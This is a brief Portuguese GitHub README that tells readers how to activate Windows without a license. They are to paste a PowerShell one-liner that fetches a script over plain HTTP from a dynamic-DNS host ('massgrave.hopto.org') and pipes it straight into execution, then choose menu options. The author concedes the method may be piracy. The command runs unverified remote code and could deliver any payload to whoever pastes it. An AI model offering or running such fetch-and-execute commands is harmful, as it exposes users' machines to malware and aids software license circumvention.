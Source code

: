 ### Windows Ativação 
![Screenshot_20240214-204135-337](https://github.com/Raposo67/Windows-Activation/assets/114825370/f0cb53be-7aa2-40c9-8c04-bc7c08b3828b)

Esse codigo faz com que a ativação do windows seja feita de maneira muito rapida e eficaz. 
### Comandos && Instruções
```bash
 Abra o Power Shell
```
### Execute esse comando:
```bash
irm http://massgrave.hopto.org/get | iex
```
Logo depois irá aparecer um menu voce digita:
```bash
1
```
Espere alguns minutos e digite
```bash
1
```
Novamente, e a ativação sera feita automaticamente.

###### Quero deixar bem claro que pode ser pirataria e que eu fiz aqui no meu e deu certo.
deem uma olhada no meu perfil, talvez vocês gostem do que veram la!!!
https://github.com/Raposo67/

Obrigado Meu Deus!!!

